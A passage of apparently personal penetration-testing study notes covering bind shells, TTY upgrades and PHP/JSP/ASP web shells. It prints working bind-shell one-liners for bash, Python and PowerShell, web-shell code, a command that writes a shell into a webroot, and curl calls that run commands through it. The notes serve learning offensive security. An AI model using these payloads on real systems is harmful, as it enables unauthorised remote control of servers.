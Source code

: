 		- first 2 are for bash, third is for powershell
		- 10.10.10.10 is attacker's ip

	- How to know our own ip?
		- ip a
	- Downside to reverse shell
		- Once the command is stopped, must use initial exploit to get it back again
- Bind shell
	- Target hosts a listening port, we conect to it
	- First execute a bind shell command, which starts listening on a port on the remote host and binds that host's shell (bash/powershell) to that port
		- `bash rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`
		- `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
		- `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();`
	- Then, we can connect to that port
		- `nc 10.10.10.1 1234`

Upgrading TTY
- After connecting to the shell, can only type commands or backspace, cannot move text cursor etc.
- Need to upgrade TTY
	- `python -c 'import pty; pty.spawn("/bin/bash")'`
- Then
	- ctrl+z to background shell and get back on our local terminal, then input the following stty command
	- `stty raw -echo`
	- `fg`

Web shell
- Typically a web script (PHP, ASPX) that 
	- accepts our command through HTTP request parameters like GET or POST request parameters
	- executes command
	- prints output back on web page
- Writing a web shell script
	- `<?php system($_REQUEST["cmd"]); ?>`
	- `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
	- `<% eval request("cmd") %>`
- Uploading the web shell
	- Need to place the above script into the remote hosts's web directory (webroot), to execute the script through the web browser
	- This can be through vulnerability in anupload feature, which allows us to write one of our shells to file, eg. shell.php and upload it, then access our uploaded file to execute cmmands
	- However, if we only have remote command execution through exploit, can write shell directly to webroot to access it over the web.
		- Default webroots:
			- Apache: /var/www/html/
			- Nginx: /usr/local/nginx/html/
			- IIS: c:\inetpub\wwwroot\
			- XAMPP: C:\xampp\htdocs\
		- Then use echo to write out our web shell
		- eg.
			- `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`
	- Once we write the web shell, can access it through browser or using cURL
		- Browser: visit shell.php page on compromised website, then use the ?cmd=id to execute the id command (can change the command to what you want)
			- `http://SERVER_IP:PORT/shell.php?cmd=id`
		- cURL: 
			- `curl http://SERVER_IP:PORT/shell.php?cmd=id`